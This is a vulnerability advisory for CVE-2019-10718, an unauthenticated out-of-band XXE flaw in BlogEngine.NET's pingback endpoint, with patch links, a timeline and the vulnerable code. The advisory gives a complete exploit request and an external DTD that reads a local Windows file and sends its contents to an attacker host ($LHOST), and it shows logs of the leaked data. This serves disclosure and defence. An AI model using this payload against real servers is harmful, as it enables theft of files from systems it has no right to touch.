 An Out-of-band XML External Entity attack, CVE-2019-10718, exists on BlogEngine.NET versions 3.3.7 and earlier through the `/pingback.axd` endpoint.  This issue can be exploited to reveal the contents of files on the host. Authentication is not required.

## Vendor Patch

* https://github.com/rxtur/BlogEngine.NET/releases

## Timeline

* Identified: 30 Mar 2019
* Initial Developer Contact: 31 Mar 2019
* Issue Disclosed: 18 Jun 2019

## Description

The vulnerable code can be found here:

~~~{.cs command="PingbackHandler.cs"}
331:        private static XmlDocument RetrieveXmlDocument(HttpContext context)
332:        {
333:            var xml = ParseRequest(context);
334:            if (!xml.Contains("<methodName>pingback.ping</methodName>"))
335:            {
336:                context.Response.StatusCode = 404;
337:                context.Response.End();
338:            }
339:
340:            var doc = new XmlDocument();
341:            doc.LoadXml(xml);
342:            return doc;
343:        }
~~~

The string `<methodName>pingback.ping</methodName>` must appear in the body of the request; the XML resolver is not set so External Entities can be processed.

An unauthenticated user can submit a `POST` containing a malicious XML body such as:

~~~
POST /pingback.axd HTTP/1.1
Host: $RHOST
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 134

<?xml version="1.0"?>
    <!DOCTYPE foo SYSTEM "http://$LHOST/ex.dtd">
    <foo>&e1;</foo>
<methodName>pingback.ping</methodName>
~~~

<pagebreak></pagebreak>

The malicious XML instructs the parser to request a DTD (document type definition) from an external host:

~~~
$RHOST - - [01/Apr/2019:16:34:40 -0600] "GET /ex.dtd HTTP/1.1" 200 326 "-" "-"
~~~

The external DTD is then parsed and instructs the application to read a local file:

~~~{command="ex.dtd"}
<!ENTITY % p1 SYSTEM "file:///C:/WINDOWS/win.ini">
<!ENTITY % p2 "<!ENTITY e1 SYSTEM 'http://$LHOST/EX?%p1;'>">
%p2;
~~~

The contents of the local file, `C:/WINDOWS/win.ini` in the example, are then sent in a subsequent request to the attacker:

~~~
$RHOST - - [01/Apr/2019:16:34:40 -0600] "GET /EX?;%20for%2016-bit%20app%20support%0D%0A[fonts]%0D%0A[extensions]%0D%0A[mci%20extensions]%0D%0A[files]%0D%0A[Mail]%0D%0AMAPI=1%0D%0A[MCI%20Extensions.BAK]%0D%0A3g2=MPEGVideo%0D%0A3gp=MPEGVideo%0D%0A3gp2=MPEGVideo%0D%0A3gpp=MPEGVideo%0D%0Aaac=MPEGVideo%0D%0Aadt=MPEGVideo%0D%0Aadts=MPEGVideo%0D%0Am2t=MPEGVideo%0D%0Am2ts=MPEGVideo%0D%0Am2v=MPEGVideo%0D%0Am4a=MPEGVideo%0D%0Am4v=MPEGVideo%0D%0Amod=MPEGVideo%0D%0Amov=MPEGVideo%0D%0Amp4=MPEGVideo%0D%0Amp4v=MPEGVideo%0D%0Amts=MPEGVideo%0D%0Ats=MPEGVideo%0D%0Atts=MPEGVideo HTTP/1.1" 404 438 "-" "-"
~~~

## Exploit

* <./exploit.py> 

Requests the contents of specified files (or `C:/Windows/win.ini` by default). It then writes the files to the current folder:

~~~{command="C_Windows_win.ini"}
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
~~~
